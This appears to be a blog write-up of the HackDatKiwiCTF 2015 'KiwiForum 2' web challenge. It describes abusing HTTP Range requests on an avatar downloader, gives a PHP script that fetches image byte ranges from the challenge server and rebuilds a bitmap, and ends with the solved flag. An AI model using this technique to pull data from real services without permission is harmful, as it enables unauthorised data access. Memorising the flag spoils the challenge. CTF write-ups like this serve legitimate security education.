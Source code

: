 ```yaml
---
layout: post
title: "HackDatKiwiCTF 2015 - KiwiForum 2"
category: writeups
author: phosphore
tags: web kiwictf-2015
---
```


## KiwiForum 2
Web - 250 Points
That was a nasty bug! But not anymore. Try it this time.

### Writeup
Following KiwiForum 1, we have the source code of this challenge, but this time the bug on loader is patched. We were at the Milan Codemotion 2015 on our second day, so we coded this hack while moving to different speakers every hour or so.<br/>
Using the header HTTP_RANGE available by the downloader, we wrote a php script to download intervals of the image. Doing so, we played with the function generate_bitmap($width,$height,$bitmap) in the purecaptcha.php file.<br/>

{% highlight php %}
<?php
ini_set('max_execution_time', 0); 

		$width = 7200;
		$height = 7800;
		$rowSize=floor(($width+31)/32)*4;
		$size=$rowSize*$height + 62; //62 metadata size 
		#bitmap header
		$data= "BM"; //header
		$data.= (pack('V',$size)); //bitmap size , 4 bytes unsigned little endian
		$data.= "RRRR";
		$data.= (pack('V',14+40+8)); //bitmap data start offset , 4 bytes unsigned little endian, 14 forced, 40 header, 8 colors

		#info header //42+66 ahead
		$data.= pack('V',40); //bitmap header size (min 40), 4 bytes unsigned little-endian
		$data.= (pack('V',$width)); //bitmap width , 4 bytes signed integer
		$data.= (pack('V',$height)); //bitmap height , 4 bytes signed integer
		$data.= (pack('v',1)); //number of colored plains , 2 bytes 
		$data.= (pack('v',1)); //color depth , 2 bytes 
		$data.= (pack('V',0)); //compression algorithm , 4 bytes (0=none, RGB)
		$data.= (pack('V',0)); //size of raw data, 0 is fine for no compression , 4 bytes 
		$data.= (pack('V',11808)); //horizontal resolution (dpi), 4 bytes 
		$data.= (pack('V',11808)); //vertical resolution (dpi), 4 bytes 
		$data.= (pack('V',0)); //number of colors in pallette (0 = all), 4 bytes 
		$data.= (pack('V',0)); //number of important colors (0 = all), 4 bytes 

		#color palette
		$data.= (pack('V',0)); //first color, black
		$data.= (pack('V',0x00FFFFFF)); //next color, white
		
		//echo strlen($data); //62
		$j = 62; //prime 0 righe
		for ($i = 900; $i < $size-62; $i=$i+9000)   //900 is byte length of a row, 9000 = 10 rows
		{
				$ch = curl_init();
				curl_setopt($ch, CURLOPT_URL, 'http://c51a65.hack.dat.kiwi/web/kiwi-forum2/avatar?id=1');
				
				curl_setopt($ch, CURLOPT_RANGE, $j.'-'.$i);
				echo $j.'-'.$i."\r\n";
				$j = $i;
				curl_setopt($ch, CURLOPT_BINARYTRANSFER, 1);
				curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
				$result = curl_exec($ch);
				curl_close($ch);
				$data.=$result;
				
				for ($k=0;$k<100000;++$k) //100'800 white space (112 lines)
						$data.= pack('C',0); //whitespace
				$i = $i+100000;
				$j = $j+100000;
				
		}
		
		$file="flag_1000000.bmp";
		file_put_contents($file, $data);

?>

{% endhighlight %}

After a few minutes, here is the result:<br/>

![Flag]({{ site.url }}/assets/flagcurled.png){: .center-image }

Due to a bug in the script, (my fault!) the first characters in the first two lines are actually at the end.
The flag so it becomes: `0390c17ec34f1b4c`
